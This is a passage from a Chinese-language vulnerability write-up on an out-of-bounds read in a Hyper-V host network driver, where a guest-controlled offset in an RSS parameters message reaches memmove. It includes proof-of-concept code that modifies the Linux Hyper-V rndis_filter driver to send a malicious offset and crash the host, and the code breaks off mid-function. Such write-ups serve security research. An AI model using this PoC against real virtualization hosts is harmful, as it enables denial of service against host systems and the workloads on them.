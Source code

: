          通过上面的代码可知，两处代码在调用 memmove 函数时，没有检查 Src 参数指向的内存是否越界。参数 Src 的值是由一个地址加上偏移而得来的，但是这个偏移我们是能通过虚拟机发送的数据控制的，所以造成了宿主机驱动中的越界读。一旦偏移足够大，读到非法的内存位置便可以造成 BugCheck，导致宿主机蓝屏。

在上面的汇编代码中，VmsVmNicHandleRssParametersChange+0x11C 语句是将虚拟机传来的数据 rssp->indirect_taboffset 加上一个地址便是 memmove 函数的 Src 参数，由于 rssp->indirect_taboffset 可以控制，所以 Src 参数便可以从虚拟机中控制。上文中另外一处代码 VmsVmNicHandleRssParametersChange+0x215 也是如此。

6.2. PoC 编写与漏洞触发

         和上面一样，这里我们的 PoC 可以直接通过修改 Hyper-V 在 Linux 内核驱动代码实现，故我们在./linux-4.7.2/drivers/net/hyperv/rndis_filter.c 文件中添加如下代码。

```
static int rndis_filter_query_device_mac(struct rndis_device *dev)
{//这个函数是Linux Kernel中原有的函数，我们需要修改它
u32 size = ETH_ALEN;
rndis_pool_overflow(dev);//这是我们加上的语句
return rndis_filter_query_device(dev,
RNDIS_OID_802_3_PERMANENT_ADDRESS,
dev->hw_mac_adr, &size);
}
//下面为新增加的函数，用于触发漏洞
static int rndis_pool_overflow(struct rndis_device *rdev)
{
  printk(KERN_ALERT"[+]Run POC!");
  struct net_device *ndev = rdev->ndev;
  int num_queue = 0;
  struct rndis_request *request;
  struct rndis_set_request *set;
  struct rndis_set_complete *set_complete;
  u32 extlen = sizeof(struct ndis_recv_scale_param) +
               4*ITAB_NUM + HASH_KEYLEN;
  struct ndis_recv_scale_param *rssp;
  u32 *itab;
  u8 *keyp;
  int i, ret;
  unsigned long t;
  request = get_rndis_request(
      rdev, RNDIS_MSG_SET,
      RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen);
  if (!request)
    return -ENOMEM;
 
  set = &request->request_msg.msg.set_req;
  set->oid = OID_GEN_RECEIVE_SCALE_PARAMETERS;
  set->info_buflen = extlen;
  set->info_buf_offset = sizeof(struct rndis_set_request);
  set->dev_vc_handle = 0;
 
  rssp = (struct ndis_recv_scale_param *)(set + 1);
  rssp->hdr.type = NDIS_OBJECT_TYPE_RSS_PARAMETERS;
  rssp->hdr.rev = NDIS_RECEIVE_SCALE_PARAMETERS_REVISION_2;
  rssp->hdr.size = sizeof(struct ndis_recv_scale_param);
  rssp->flag = 0;
  rssp->hashinfo = NDIS_HASH_FUNC_TOEPLITZ | NDIS_HASH_IPV4 |
      NDIS_HASH_TCP_IPV4 | NDIS_HASH_IPV6 |
      NDIS_HASH_TCP_IPV6;
  rssp->indirect_tabsize = 4*ITAB_NUM;
  rssp->indirect_taboffset = 0x80808080;//这里会导致越界读
  rssp->hashkey_size = HASH_KEYLEN;
  rssp->kashkey_offset = rssp->indirect_taboffset +
                         rssp->indirect_tabsize;
 
  ret = rndis_filter_send_request(rdev, request);
  if (ret != 0)
    goto cleanup;
```